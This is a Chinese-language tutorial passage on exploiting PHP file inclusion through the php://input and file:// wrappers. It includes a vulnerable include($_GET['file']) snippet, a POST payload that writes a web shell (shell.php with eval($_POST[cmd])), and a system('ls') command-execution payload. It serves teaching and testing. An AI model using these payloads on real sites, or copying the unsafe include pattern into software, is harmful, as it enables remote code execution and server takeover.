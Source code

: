 php://input可以读取POST上没有经过解析的原始数据
利用php://input 读取POST数据的时候，allow_url_fopen和allow_url_include不需要开启
示例代码如下

```php
	echo file_get_contents("php://input");
```

上面代码输出file_get_contents函数获取的php://input数据。
测试时传入POST数据字符串test
最后会在页面回显出test

#### 写入木马

利用php://input写入木马的时候，PHP配置文件只需要开启allow_url_include
如果POST传入的是PHP代码，就可以写入木马
示例代码如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```

如果POST传入的是一个执行写入木马的PHP代码，就会在当前目录下写入一个木马，通过POST方法传入的是以下代码
`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>`
利用php://input传入木马的PHP代码
`http"//www.abc.com/xxx/file.php?file=php://input`
测试的结果就是通过php://input传入了这个代码，并在当前目录下建立了shell.php文件

#### 执行命令

示例代码如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```

利用php://input执行命令的时候，PHP配置文件只需要开启allow_url_include
如果POST传入的是PHP代码，就可以执行任意代码，如果此时PHP代码调用了系统函数，就可以执行该命令
比如传入POST参数
`<?php system('ls');?>`

## file: //伪协议

file:// 可以访问本地文件系统，读取本地文件的内容
使用file:// 不需要开启allow_url_fopen和allow_url_include
示例代码如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```
